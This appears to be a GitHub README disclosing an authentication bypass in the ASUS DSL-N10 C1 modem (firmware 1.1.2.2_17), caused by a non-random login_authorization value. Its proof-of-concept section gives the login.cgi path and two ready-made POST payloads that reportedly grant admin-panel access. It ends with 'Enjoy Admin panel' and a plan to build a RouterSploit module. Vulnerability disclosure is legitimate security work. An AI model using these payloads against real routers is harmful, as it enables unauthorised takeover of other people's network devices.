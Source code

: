 # ASUS-DSL-N10---Authentication-Bypass

## Title: ASUS-DSL N10 1.1.2.2_17 - Authentication Bypass
Author: AmnBAN team  
Date: 2018-08-06  
Vendor Homepage: https://www.asus.com/Networking/DSLN10_C1_with_5dBi_antenna/  
Sofrware version: 1.1.2.2_17  
CVE: N/A
 
## 1. Description:
In ASUS-DSL N10 C1 modem Firmware Version 1.1.2.2_17 there is login_authorization 
parameter in post data, that use for authorization access to admin panel, 
the data of this parameter is not fully random and you can use old data 
or data of another device to access admin panel.
 
## 2. Proof of Concept:
Browse http://< Your Modem IP >/login.cgi
 
Send this post data:
group_id=&action_mode=&action_script=&action_wait=5&current_page=Main_Login.asp&next_page=%2Fcgi-bin%2FAdvanced_LAN_Content.asp&login_authorization=YWRtaW46MQ%3D%2D
 
Or this post data:
group_id=&action_mode=&action_script=&action_wait=5&current_page=Main_Login.asp&next_page=%2Fcgi-bin%2FAdvanced_LAN_Content.asp&login_authorization=FWRtaW46MQ%3D5D

Enjoy Admin panel

## links:
https://www.exploit-db.com/exploits/45201/

## TODO:
Develop [RouterSploit](https://github.com/threat9/routersploit)  module for this vulnerability
